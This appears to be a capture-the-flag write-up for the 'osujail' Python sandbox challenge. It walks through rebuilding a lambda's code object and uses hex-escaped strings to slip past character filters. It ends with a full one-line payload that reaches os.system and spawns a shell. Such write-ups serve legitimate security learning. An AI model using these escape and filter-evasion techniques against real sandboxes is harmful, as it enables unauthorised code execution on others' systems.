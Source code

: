## osujail
*Recommended reading for background information if you are unfamiliar with these concepts: [code objects](https://docs.python.org/3/reference/datamodel.html#code-objects), [pyjail payloads](https://davidjwolfe.com/posts/Build_Yourself_In/)*

The idea is to create a lambda function and then update its code object so that it runs your standard pyjail payload:
`().__class__.mro()[1].__subclasses__()[133].__init__.__globals__['system']('sh')`
(subclass 133 is `os._wrap_close`)

Let's look at the code object that we need to replicate:

```py
>>> def f():return ().__class__.mro()[1].__subclasses__()[133].__init__.__globals__['system']('sh')
...
>>> import dis
>>> print(dis.code_info(f))
Name:              f
Filename:          <stdin>
Argument count:    0
Positional-only arguments: 0
Kw-only arguments: 0
Number of locals:  0
Stack size:        2
Flags:             OPTIMIZED, NEWLOCALS, NOFREE
Constants:
   0: None
   1: ()
   2: 1
   3: 133
   4: 'system'
   5: 'sh'
Names:
   0: __class__
   1: mro
   2: __subclasses__
   3: __init__
   4: __globals__
>>> f.__code__.co_code
b'd\x01j\x00\xa0\x01\xa1\x00d\x02\x19\x00\xa0\x02\xa1\x00d\x03\x19\x00j\x03j\x04d\x04\x19\x00d\x05\x83\x01S\x00'
```

We can see that we'll need to change the `co_consts`, `co_names` and `co_code` attributes of the lambda's code object.

First, we create a lambda with the correct co_consts:

```py
(f := lambda: (0, (), 1, 133, '\x73y\x73tem', '\x73h'))
```

Next, we need to update the `co_names` and `co_consts` tuples. We can do this using our code object's [`.replace()` method](https://docs.python.org/3/reference/datamodel.html#codeobject.replace). However, `co_consts` contains 2 o's, which are banned. This means that we'll need to pass a dict in, but we aren't able to create one using `{}` either.

What we can do is use `f.__dict__` and `dict.update`:

```py
f.__dict__.update(
	(
		(
		'c\x6f_name\x73', (
		'__cla\x73\x73__', 'mr\x6f', '__\x73\x75bcla\x73\x73e\x73__', '__init__', '__gl\x6fbal\x73__'
		)
		),
		(
		'c\x6f_c\x6fde',
		b'd\x01j\x00\xa0\x01\xa1\x00d\x02\x19\x00\xa0\x02\xa1\x00d\x03\x19\x00j\x03j\x04d\x04\x19\x00d\x05\x83\x01S\x00'
		)
	)
)
```

Finally, we replace the lambda's code object with our updated one:

```py
f.__setattr__('__c\x6fde__', f.__code__.replace(**f.__dict__))
```

Full payload:

```py
((f := lambda: (0, (), 1, 133, '\x73y\x73tem', '\x73h')),f.__dict__.update((('c\x6f_name\x73',('__cla\x73\x73__', 'mr\x6f', '__\x73\x75bcla\x73\x73e\x73__', '__init__', '__gl\x6fbal\x73__')), ('c\x6f_c\x6fde',b'd\x01j\x00\xa0\x01\xa1\x00d\x02\x19\x00\xa0\x02\xa1\x00d\x03\x19\x00j\x03j\x04d\x04\x19\x00d\x05\x83\x01S\x00'))),f.__setattr__('__c\x6fde__', f.__code__.replace(**f.__dict__)),f())
```
